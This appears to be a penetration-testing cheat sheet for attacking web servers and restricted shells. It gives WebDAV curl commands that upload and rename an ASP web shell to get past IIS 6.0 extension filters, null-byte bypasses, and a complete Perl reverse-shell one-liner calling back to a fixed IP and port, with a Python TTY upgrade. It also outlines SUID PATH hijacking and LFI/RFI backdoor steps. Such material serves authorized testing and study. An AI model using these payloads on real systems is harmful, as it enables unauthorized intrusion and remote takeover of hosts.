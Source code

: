# cURL

IF MODIFY, PUT, MOVE, DELE etc HEADERS are misconfigured.

#### UPLOAD
```
Curl -T ‘location of file’ ‘http://target/name
e.g
      curl -T 'shell.asp' 'http://<IPADDRESS>/shell.asp'
```

#### RENAME

CAN USE THIS TO BYPASS FILE EXTENSIONS Restrictions

```
curl -X MOVE --header 'Destination:http://<TARGETIPADDRESS>/shell.asp;.txt' 'http://<TARGETIPADDRESS>/shell.txt'
e.g
      changing from shell.txt --> shell.asp;.txt

p.s bypasses IIS 6.0 File extensions 
```

#### CREATE DIRECTORY
```
curl -X MKCOL 'http://<IPADDRESS>/test'
```

# NULL BYTES

Bypass File Extentension Restrictions

```
%23
%00
```

# ESCAPE JAIL SHELL
#### USING PERL REVERSE SHELL INTO PYTHON TTY

```
/usr/bin/perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.21.31:1234");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
/usr/bin/python -c 'import pty; pty.spawn("/bin/sh")'

```

# EXPLOITING SUID FILES SYMLINK
Using strings  "exploit.file"
  - Find a dependency

Change EXPORT path to /tmp/
  - Create a binary file with the same name as dependency
  - Have this file create a reverse shell
Run the misconfigured SUID file, it will return a reverse shell using SUID


# EXPLOITING LFI / RFI
#### BASIC LFI
```
     Log Poisoning
     Using LFI to run an already uploaded backdoor
```
#### BASIC RFI
```
Create a .php reverse shell
Rename file extension to .txt  [ May need to append null bytes depending if headers are included, check apache access logs ]
Navigate to file through RFI exploit
```
